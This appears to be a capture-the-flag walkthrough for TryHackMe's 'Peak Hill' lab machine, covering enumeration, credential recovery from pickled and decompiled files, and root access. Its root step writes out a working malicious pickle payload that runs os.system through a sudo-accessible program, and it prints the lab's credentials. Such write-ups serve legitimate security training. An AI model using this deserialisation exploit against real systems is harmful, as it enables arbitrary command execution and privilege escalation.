 # [Peak Hill](https://tryhackme.com/room/peakhill)

## Exercises in Python library abuse and some exploitation techniques

# Peak Hill

## Deploy and compromise the machine!

### What is the user flag?

1. Perform network service enumeration to identify available services and their versions

```bash
nmap -sV <TARGET_IP>
```

[SCREEN01]

2. Connect to the identified FTP service using anonymous credentials to enumerate accessible files

```bash
ftp <TARGET_IP>
anonymous
get test.txt
get .creds
```

3. Process the `.creds` file content through CyberChef binary decoder. Input the binary content into [CyberChef](https://gchq.github.io/CyberChef/), apply "From Binary" operation, and download the resulting output as a `.dat` file

4. Execute the downloaded `.dat` file using Python's pickle module to extract embedded credentials. The deserialized data reveals user authentication information
   - The extracted credentials are: `gherkin:p1ckl3s_@11_@r0und_th3_w0rld`

```python
import pickle
with open("download.dat", "rb") as file:
    pickle_data = file.read()
    creds = pickle.loads(pickle_data)
    print(creds)
```

[SCREEN02]

5. Establish SSH connection using the obtained credentials to gain initial system access

```bash
ssh gherkin@<TARGET_IP>
```

6. Transfer and decompile the Python compiled bytecode file to examine the underlying source code structure

```bash
scp gherkin@10.10.157.4:cmd_service.pyc .
sudo pip3 install uncompyle6
uncompyle6 cmd_service.pyc
```

[SCREEN03]

7. Analyze the decompiled code to identify encoded numerical values representing authentication credentials. Apply cryptographic conversion to decode the values
   - The decoded credentials are: `dill:n3v3r_@_d1ll_m0m3nt`

```python
from Crypto.Util.number import long_to_bytes

username_encoded = 1684630636
password_encoded = 2457564920124666544827225107428488864802762356

username = long_to_bytes(username_encoded).decode('utf-8')
password = long_to_bytes(password_encoded).decode('utf-8')

print(f"Username: {username}")
print(f"Password: {password}")
```

[SCREEN04]

8. Connect to the identified network service using the decoded credentials and locate the user flag

```bash
nc <TARGET_IP> 7321
cat /home/dill/user.txt
```

[SCREEN05]

---

### What is the root flag?

1. Examine available sudo permissions to identify potential privilege escalation vectors

```bash
sudo -l
```

2. Construct a pickle object containing arbitrary command execution functionality. The payload exploits Python's pickle deserialization to execute system commands with elevated privileges
   - Generated payload: `gASVJgAAAAAAAACMBXBvc2l4lIwGc3lzdGVtlJOUjAtjYXQgL3Jvb3QvKpSFlFKULg==`

```python
#!/usr/bin/env python3
import pickle
import os
import base64

class EvilPickle(object):
    def __reduce__(self):
        return (os.system, ('cat /root/*', ))
pickle_data = pickle.dumps(EvilPickle())

print(base64.b64encode(pickle_data))
```

3. Execute the malicious pickle payload through the identified sudo-accessible application to achieve root-level command execution and retrieve the root flag

```bash
echo "gASVJgAAAAAAAACMBXBvc2l4lIwGc3lzdGVtlJOUjAtjYXQgL3Jvb3QvKpSFlFKULg==" | sudo /opt/peak_hill_farm/peak_hill_farm
```

[SCREEN07]
